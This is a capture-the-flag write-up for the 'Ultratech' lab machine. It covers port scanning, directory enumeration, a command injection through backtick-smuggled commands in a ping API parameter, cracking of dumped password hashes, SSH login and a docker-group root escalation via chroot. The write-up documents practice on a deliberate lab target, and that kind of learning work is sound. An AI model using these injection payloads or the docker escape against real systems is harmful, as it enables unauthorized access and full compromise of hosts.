

<h1>Ultratech</h1> <h3>Nmap Scan</h3>

I started with:

nmap -sC -sV <ip>

The results were not very detailed, so I suspected more open ports.

I performed a full port scan:

nmap -p- <ip>

This revealed additional ports. I then ran a targeted scan:

nmap -sC -sV -p 21,22,8081,31331 <ip>

Now we have a clearer picture of the attack surface.

<h3>Initial Enumeration</h3>

The first thing I tried was connecting anonymously to the FTP service, but it didn’t work.

So I moved on to the HTTP services.

<h4>Port 8081</h4>

Visiting:

http://<ip>:8081

We see an empty page.

I performed directory enumeration:

feroxbuster -u http://<ip>:8081 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

This revealed:

/auth
/ping

These didn’t provide much useful information.

<h4>Port 31331</h4>

I ran feroxbuster again:

feroxbuster -u http://<ip>:31331 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

While the scan was running, I checked robots.txt and found:

/index.html
/what.html
/partners.html

<h3>JavaScript Analysis</h3>

While inspecting the source code of the partners page, I found:

I accessed:

http://<ip>:31331/js/api.js

The API appears to implement a <em><strong>ping functionality</strong></em>, which may be vulnerable to command injection.

<h3>Command Injection</h3>

The endpoint uses:

/ping?ip=<target>

Using Burp Suite, I intercepted the request and sent it to Repeater.

First test:

ping?ip=10.113.142.102+`whoami`

Response:

www

This confirms <em><strong>command injection</strong></em>.

<h4>Further Enumeration</h4>

I listed files:

ping?ip=10.113.142.102+`ls`

This revealed a database:

utech.db.sqlite

Inside, I found credentials:

r00t f35****a32
admin 0d0****e84

<h3>Hash Cracking</h3>

I assumed MD5 and used:

hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

After cracking, I used the credentials to log in via SSH.

<h3>Gaining Access</h3>

ssh r00t@<ip>

Login was successful.

<h3>Privilege Escalation</h3>

I transferred and executed <em><strong>linpeas.sh</strong></em> for enumeration:

scp linpeas.sh r00t@<ip>:~/
chmod +x linpeas.sh
./linpeas.sh

I discovered the user is part of the <em><strong>docker group</strong></em>.

<h4>Docker Exploitation</h4>

From <em><strong>GTFOBins</strong></em>, I found:

docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/sh

I checked available images:

docker image ls

I found an image named bash, so I used:

docker run -v /:/mnt --rm -it bash chroot /mnt sh

<h3>Root Access</h3>

This gave me a root shell.

